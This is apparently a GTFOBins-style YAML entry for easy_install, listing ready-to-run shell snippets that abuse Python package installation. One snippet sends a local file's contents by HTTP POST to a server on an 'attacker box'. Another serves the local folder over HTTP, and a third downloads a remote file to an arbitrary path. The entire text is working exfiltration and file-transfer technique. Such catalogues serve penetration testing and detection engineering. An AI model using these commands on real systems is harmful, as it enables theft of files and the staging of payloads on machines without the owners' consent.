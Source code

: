 ```yaml
---
functions:
  file-upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["$URL"], bytes(u.urlencode({"d":open(e["$LFILE"]).read()}).encode()))' > $TF/setup.py
        easy_install $TF
  server:
    - description: Serve files in the local folder running an HTTP server.
      code: |
        TF=$(mktemp -d)
        echo 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["$LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' > $TF/setup.py
        easy_install $TF
  file-download:
    - description: Fetch a remote file via HTTP GET request. The file path must be absolute.
      code: |
        TF=$(mktemp -d)
        echo "import os;
        os.execl('$(whereis python)', '$(whereis python)', '-c', \"\"\"import sys;
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve('$URL', '$LFILE')\"\"\")" > $TF/setup.py
        pip install $TF
---
```

